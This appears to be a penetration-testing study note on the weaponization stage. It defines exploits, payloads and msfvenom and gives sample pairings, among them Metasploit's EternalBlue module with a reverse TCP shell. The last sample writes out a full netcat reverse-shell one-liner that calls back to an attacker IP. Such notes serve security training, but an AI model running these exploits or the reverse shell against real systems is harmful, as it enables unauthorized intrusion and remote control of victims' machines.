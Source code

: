 
```
    INPUT             |      PROCESS                 |       TOOLS                           |      OUTPUT
----------------------|------------------------------|---------------------------------------|------------------
    Information       |     Creation of Weapon       |       Vulnerability Repositories      |      Weapon
    Network map       |                              |       Development                     |      
        IPs           |                              |       msfconsole                      |
        Ports         |                              |       msfvenom                        |
        Services      |
        Firewalls     |
        Users         |
    Vulnerability     |            
```                                                
                                                    
[Weapon]             [Exploit]        An exploit is a code that is written to take advantage of a specific Vulnerability in a system.
                     [Payload]        Payload is the code that actually does something.    
                        [RS]         Reverse Shell that need 
                        [Malware]    Malicious Software
[Msfvenom]           Standalone payload generator
[Windows]            Weapon types: WSH, HTA, VBA, PSH


# Sample

- VULN        ms17-010 [CVE-2017-0143]
    - TOOLS       msfconsole     
    - Exploit     exploit/windows/smb/ms17_010_eternalblue 
    - Payload     windows/x64/shell/reverse_tcp
- VULN        Online Book Store 1.0 - Unauthenticated Remote Code Execution
    - TOOLS       Python   
    - Exploit     https://www.exploit-db.com/exploits/47887  
    - Payload     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.56.2 4444 > /tmp/f